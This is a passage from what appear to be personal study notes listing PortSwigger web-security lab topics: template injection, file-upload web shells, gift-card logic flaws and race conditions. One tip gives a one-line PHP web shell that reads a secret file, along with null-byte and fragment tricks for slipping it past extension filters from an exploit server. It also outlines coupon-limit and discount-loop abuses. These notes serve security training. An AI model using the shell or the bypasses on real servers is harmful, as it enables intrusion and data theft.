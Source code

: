    - Server-side template injection with information disclosure via user-supplied objects

   - Server-side template injection in a sandboxed environment



## **_File Upload functionality_**
   - Remote code execution via web shell upload

   - Web shell upload via Content-Type restriction bypass

   - Web shell upload via path traversal

   - Web shell upload via extension blacklist bypass

   - **_Remote file Inclusion_**

     Tip: In the labs we create our own shell.php file and upload it on the server directly. However if the server allows RFI we could simply use the exploit server to host our shell.php file containing the following code.
     `<?php echo file_get_contents('/home/carlos/secret'); ?>`
     If the server is implementing filtering techniques, for example, to only accept remote links with JPG extension. We can simply obfuscate our link as follows.
     
     `https://exploit-server.com/shell.php%00file.jpg`
     
     `https://exploit-server.com/shell.php#file.jpg`

     More techniques could be found here.
     https://portswigger.net/web-security/file-upload#obfuscating-file-extensions
     
   - **_Web shell upload via obfuscated file extension_**

   - Remote code execution via polyglot web shell upload

   - Web shell upload via race condition

   - Using PHAR deserialization to deploy a custom gadget chain



## **_Gift Card functionality_**
### * **Application Logic**
   - Flawed enforcement of business rules (limits on using the coupon more than once is bypassed when you  alternate between the two codes)

   - Infinite money logic flaw ( we buy gift card at discounts then redeem them)


### * **Race conditions**
   - Limit overrun race conditions

   - Multi-endpoint race conditions

   - Single-endpoint race conditions (Collision in change email functionality)



## Images Functionality
